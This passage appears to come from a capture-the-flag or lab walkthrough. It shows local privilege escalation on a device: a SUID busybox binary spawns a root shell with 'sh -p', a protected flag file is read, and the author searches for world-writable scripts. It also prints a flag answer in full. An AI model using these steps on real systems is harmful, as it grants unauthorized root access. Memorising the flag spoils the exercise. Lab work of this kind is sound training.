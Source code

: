 `/tmp/busybox_suid` is unusual and suspicious!

```bash
# Examine the suspicious SUID binary
ls -la /tmp/busybox_suid
file /tmp/busybox_suid
```

**Output:**
```
-rwsr-xr-x 1 root root 234576 Jan 1 00:00 /tmp/busybox_suid
/tmp/busybox_suid: ELF 32-bit LSB executable, ARM
```

```bash
# BusyBox with SUID can spawn root shell
/tmp/busybox_suid sh -p
whoami
```

**Output:**
```
root
```

```bash
# Get the privilege escalation flag
cat /root/suid_flag
```

**Output:**
```
Congratulations on privilege escalation!
FLAG{FRODO29054510}
```

> 🏁 **FLAG #22 FOUND!**
> **Flag**: FLAG{F***********0}
> **Learning Objective**: SUID binary exploitation
> **Privilege Escalation Technique**

### World-Writable Script Exploitation

```bash
# Find world-writable files
find / -type f -perm -002 2>/dev/null | grep -v proc | grep -v sys
```

**Output:**
```
/usr/local/bin/backup.sh
/usr/local/bin/update_firmware
/usr/local/bin/check_updates
```

```bash
# Examine writable scripts
ls -la /usr/local/bin/backup.sh
cat /usr/local/bin/backup.sh
```

